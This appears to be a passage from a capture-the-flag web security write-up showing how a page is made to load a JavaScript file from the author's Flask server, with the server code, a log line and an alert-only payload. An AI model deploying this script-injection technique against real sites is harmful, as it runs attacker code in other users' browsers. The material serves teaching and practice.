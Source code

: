 
**Flask web application:**
```shell
127.0.0.1 - - [31/Jul/2023 16:22:49] "GET /_next/static/chunks/pages/index-3228b8a1fcea6589.js HTTP/1.1" 404 -
```

Nice! It's trying to **import `/_next/static/chunks/pages/index-3228b8a1fcea6589.js` JavaScript file** from our web server!!

**Then, we can create a new route in Flask and JavaScript payload:**
```python
#!/usr/bin/env python3
from flask import Flask, send_file
from flask_cors import CORS

app = Flask(__name__)

# Access-Control-Allow-Origin: *
CORS(app)

@app.route('/payload')
def serveSvgPayload():
    svgPayloadFile = 'payload.svg'
    return send_file(svgPayloadFile)

@app.route('/_next/static/chunks/pages/index-3228b8a1fcea6589.js')
def abuseBaseSrc():
    javaScriptFile = 'payload.js'
    return send_file(javaScriptFile)

if __name__ == '__main__':
    app.run(port=80, debug=True)
```

**payload.js:**
```js
alert(`Payload executed:\nDomain: ${document.domain}`);
```

**Refresh the shared frog page:**

